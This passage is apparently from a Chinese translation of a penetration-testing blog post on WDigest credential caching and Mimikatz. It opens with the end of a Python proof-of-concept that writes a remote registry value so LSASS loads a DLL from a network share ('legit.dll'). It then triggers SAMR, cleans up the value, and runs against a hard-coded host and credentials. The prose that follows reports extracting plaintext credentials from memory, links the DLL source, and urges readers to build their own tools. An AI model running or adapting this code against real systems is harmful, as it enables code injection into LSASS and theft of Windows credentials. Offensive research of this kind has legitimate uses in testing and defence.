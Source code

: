```

    print("[*] Registry value created, DLL will be loaded from %s" % (dllPath))

    trigger_samr(remoteHost, username, password)

    print("[*] Removing registry entry")

    try:
        rrp.hBaseRegDeleteValue(rrpclient, subkey["phkResult"], "DirectoryServiceExtPt")
    except (Exception) as e:
        print("[x] Error deleting from remote registry: %s" % e)
        return

    print("[*] All done")

print("LSASS DirectoryServiceExtPt POC\n     @_xpn_\n")




start("192.168.0.111", "192.168.0.111", "test", "wibble", "\\\\opensharehost\\ntds\\legit.dll")
```

我们能成功从内存中提取出明文凭据，大家可以参考完整[操作步骤](https://asciinema.org/a/VwaStfgka8FHmHWhXjmBmu8zV)。

大家可以访问[此处](https://gist.github.com/xpn/12a6907a2fce97296428221b3bd3b394)下载DLL代码，我们对前文的示例稍微做了些修改。



## 0x06 总结

希望本文能帮大家理解WDigest凭据缓存原理，了解Mimikatz如何通过`sekurlsa::wdigest`命令来提取并解密密码。更重要的是，我希望本文能帮助大家构造自己的工具，方便大家在实际环境中行动。我将继续关注渗透测试中常用的其他工具或技术，大家如果有任何问题或建议，欢迎随时联系我。
